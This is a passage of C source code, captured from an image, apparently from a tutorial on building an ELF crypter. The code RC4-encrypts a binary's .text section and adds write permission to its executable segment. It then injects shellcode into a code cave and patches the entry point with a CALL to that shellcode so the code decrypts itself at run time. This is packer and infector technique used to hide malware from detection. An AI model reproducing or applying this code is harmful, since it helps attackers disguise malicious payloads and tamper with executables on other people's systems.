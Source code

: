   for (i = 0; i < elf_hdr->e_shnum; i++) {
    name = s_name + sh[i].sh_name;
    printf ("Section %02d [%20s]: Type: %d Flags: %lx | Off: %lx Size: %lx => ",
	    i, name,
	    sh[i].sh_type, sh[i].sh_flags,
	    sh[i].sh_offset, sh[i].sh_size);
    if (!strcmp (name, ".text")) {
      rc4 (p + sh[i].sh_offset, sh[i].sh_size, (unsigned char*)key, strlen (key));

      text_ptr = oep - sh[i].sh_offset;
      text_size = sh[i].sh_size;
      printf ("%s", " - Crypter!");
    }
    else printf ("\n");
  }

  long ccave = 0;
  int  ccave_size = 0;
  
  for (i = 0; i < elf_hdr->e_phnum; i++) {
    if (ph[i].p_type == PT_LOAD) {
      printf ("PHR %d  flags: %d (offset:%ld size:%ld)\n",
	      i, ph[i].p_flags, ph[i].p_offset, ph[i].p_filesz);
      if (ccave) ccave_size = ph[i].p_offset - ccave;
      if (ph[i].p_flags & PF_X) {
	    ph[i].p_flags |= PF_W; // Add write permissions
	    ccave = ph[i].p_offset + ph[i].p_filesz;
      }
    }
  }

  printf ("Code Cave at %ld size: %ld\n", ccave, ccave_size);

  printf ("Original Entry Point at: %x\n", oep);
  if (ccave_size > sc_len) {
    printf ("Injecting code at %lx\n", ccave);
    for (i = 0; i<sc_len; p[ccave+i]=sc[i],i++);
  }
  
  // Store 8 bytes at current entry point already crypted
  unsigned char op[8], *ep =  p + elf_hdr->e_entry;
  for (i = 0; i < 8; op[i++]= ep[i]);
  
  ep[0] = 0xe8;                     // CALL Opcode
  *((int*)&ep[1]) = ccave- oep - 5; // Inject offset to OEP
  
  // Copy codes into shellcode
  ep = p + ccave + PATCH_OFF + 2; // XXX: You already know how to calculate PATCH_OFF
  for (i =0; i < 8; ep[i] = op[i], i++);
  printf ("Patching instruction at offset: %lx\n", ccave + PATCH_OFF + 2);
  
  // Patch text_ptr and text_size 
  // XXX: YOu also know how to get TEXT_PTR_OFF and TEXT_SZ_OFF
  *((long*)(p + ccave + TEXT_PTR_OFF)) = text_ptr;
  *((uint32_t*)(p + ccave + TEXT_SZ_OFF)) = text_size;
  printf ("Patching text segment at offset: %lx\n", ccave+TEXT_PTR_OFF);
  printf ("Patching text segment size at offset: %lx\n", ccave+TEXT_SZ_OFF);
  munmap (p, _st.st_size); 
  